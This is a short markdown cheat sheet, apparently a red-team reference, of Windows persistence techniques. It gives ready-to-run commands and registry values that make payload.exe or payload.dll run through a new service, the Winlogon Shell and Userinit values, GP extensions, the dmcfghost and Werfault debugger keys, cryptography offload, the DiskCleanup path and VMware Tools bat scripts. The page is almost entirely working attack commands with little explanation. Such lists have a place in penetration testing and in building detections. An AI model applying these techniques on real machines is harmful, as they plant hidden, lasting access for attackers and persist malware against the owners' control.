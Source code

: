 ```yaml
---
category: Uncategorized
tags: []
---
```

#### SC service creation
```command prompt - windows
sc create newservice type= own type= interact binPath=
“C:\windows\system32\cmd.exe /c payload.exe" & sc start newservice
```

#### Winlogon Helper DLL Shell
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, payload.exe" -Force
```

#### Winlogon Helper DLL UserInit
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

#### Winlogon GP Extensions
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Winlogon\GPExtensions\$GUID\DllName=payload.dll
```

#### OMA Client Provisioning dmcfghost.exe
```command prompt - windows
HKLM\SOFTWARE\Microsoft\PushRouter\Test\TestDllPath2=payload.dll
```

#### Werfault.exe Reflective Debugger
```command prompt - windows
HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path\to\payload.exe>
```

```command prompt - windows
werfault.exe -pr 1
```

#### OffloadModExpo Function
```command prompt - windows
HKLM\Software\Microsoft\Cryptography\Offload\ExpoOffload=payload.dll
```

#### DiskCleanup CleanupMgr
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\
cleanuppath = %SystemRoot%\System32\payload.exe
```

#### VMware Tools BAT File Persistence
Add command into one or more of the following:

C:\Program Files\VMware\VMware Tools\poweroff-vm-default.bat
C:\Program Files\VMware\VMware Tools\poweron-vm-default.bat
C:\Program Files\VMware\VMware Tools\resume-vm-default.bat
C:\Program Files\VMware\VMware Tools\suspend-vm-default.bat














